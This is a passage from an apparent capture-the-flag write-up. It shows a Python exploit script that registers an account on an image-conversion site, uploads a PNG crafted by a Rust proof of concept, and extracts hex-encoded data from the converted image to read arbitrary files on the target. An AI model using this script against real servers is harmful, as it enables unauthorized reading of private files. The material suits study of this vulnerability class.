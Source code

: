```python
                'username': USER,
                'password': PASS
                }
        res = self.s.post(self.url+'/register.php', data=data, proxies=self.proxies)
        if not 'Shrunken Image URL' in res.text:
            print('register fail')

    def readFile(self, path):
        subprocess.check_call(shlex.split('cargo run --manifest-path poc/Cargo.toml "%s"' % path))
        with open('image.png', 'rb') as f:
            files = {
                    'toConvert':('dog.png', f, 'image/jpeg')
                    }
            res = self.s.post(self.url+'/', files=files, proxies=self.proxies)
            imgUrl = re.match(r'.*message=(?P<url>.*)&.*$', res.url).group('url')
            subprocess.check_call(shlex.split("wget \"%s\" -O res.png" % imgUrl))
            content = subprocess.Popen(shlex.split('sh -c "identify -verbose res.png | grep \"^[0-9]\" | xxd -r -p"'), stdout=subprocess.PIPE).communicate()[0]
            print(content)
            with open('result', 'wb') as f:
                f.write(content)

    def do_EOF(self, _):
        return True

    def emptyline(self):
        pass
    
    def default(self, cmd):
        self.readFile(cmd)

r = Reader(USER, PASS)
r.cmdloop()
```
{% endcode %}

We can read the file on the target now.
